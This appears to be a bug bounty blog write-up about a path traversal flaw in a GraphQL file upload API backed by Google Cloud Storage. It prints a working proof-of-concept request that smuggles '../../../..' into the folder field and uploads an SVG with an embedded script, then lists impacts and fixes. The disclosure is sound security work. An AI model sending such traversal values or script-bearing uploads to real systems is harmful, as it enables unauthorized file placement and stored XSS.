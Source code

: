```yaml
---
title: Path Traversal in File Upload via GraphQL API
layout: post
categories: web
description: A file upload endpoint accepted folder traversal sequences, enabling unauthorized file placement and abuse of signed Google Cloud Storage URLs.
summary: A file upload endpoint accepted folder traversal sequences, enabling unauthorized file placement and abuse of signed Google Cloud Storage URLs.
date: 2025-03-11
tags:
  - path-traversal
  - file-upload
  - graphql
  - gcp
  - bug-bounty
read_time: 3 minute read
pin: false
comments: true
toc: true
---
```



## Summary

During a routine test of a GraphQL file upload API, I discovered a **path traversal vulnerability** that allowed attackers to escape intended directories and store files in arbitrary locations on Google Cloud Storage. This could lead to **malicious file hosting**, **stored XSS**, or **unintentional overwriting of sensitive files**.

---

## Vulnerability Details

- **Endpoint**: `POST /graphql`
- **Vulnerable Parameter**: `folder` inside the GraphQL mutation

By setting the `folder` variable to a traversal string like `../../../..`, I was able to manipulate the final storage path of the uploaded file.

---

## Proof of Concept

Here’s a condensed version of the PoC used in the request:

```http
POST /graphql HTTP/2
Host: rise-api.target.com
Authorization: Bearer <token>
Content-Type: multipart/form-data; boundary=----boundary

------boundary
Content-Disposition: form-data; name="operations"

{
  "operationName": "singleUpload",
  "variables": {
    "folder": "../../../..",
    "file": "newfile"
  },
  "query": "mutation singleUpload($file: Upload!, $folder: String!) { singleUpload(file: $file, folder: $folder) { filename uri signedUrl } }"
}
------boundary
Content-Disposition: form-data; name="map"

{ "1": ["variables.file"] }
------boundary
Content-Disposition: form-data; name="1"; filename="test.svg"
Content-Type: image/svg+xml

<?xml version="1.0" standalone="no"?>
<svg xmlns="http://www.w3.org/2000/svg">
  <script>alert("XSS by mora");</script>
</svg>
------boundary--

```

### API Response

```json
{
  "data": {
    "singleUpload": {
      "filename": "test.svg",
      "uri": "organization_abc/../../../others/unique-id-test.svg",
      "signedUrl": "https://rise-files.target.com/others/unique-id-test.svg?...",
    }
  }
}
```

This shows the file being placed in a directory (`/others/`) outside the intended `organization_abc` context.

---

## Recommended Fixes

1. **Sanitize folder input**: Reject traversal sequences like `../` in any upload path.
2. **Whitelist upload directories**: Only allow uploads to pre-approved subdirectories.
3. **Limit signed URL lifetimes**: Expire signed URLs quickly to reduce misuse.
4. **Validate upload metadata server-side**: Don't rely on client-provided `folder` paths blindly.
5. **Restrict public access to upload endpoints**: Tie storage and access to strong authZ/authN checks.

---

## Impact

* **Persistent Malicious File Hosting**: Attackers could upload malware or phishing content to a trusted domain.
* **Stored XSS Risk**: Malicious file names or SVG files might execute if reflected or embedded.
* **Overwrite Risk**: Without validation, uploads could overwrite essential `.js`, `.json`, or user-generated content.
* **Information Exposure**: If GCS directory listings are ever enabled, sensitive files may be accessible.

---

## Resolution

The issue was marked **Informative** due to limited security impact in this context. However, it highlights a common misconfiguration when using file upload APIs, especially with cloud storage services like GCS or S3.

---

## 📚 References

* [OWASP Path Traversal](https://owasp.org/www-community/attacks/Path_Traversal)
* [GCP Signed URLs Best Practices](https://cloud.google.com/storage/docs/access-control/signed-urls)

---

thanks for reading.
If you enjoyed this write-up, feel free to follow me on [Twitter](https://twitter.com/00xmora)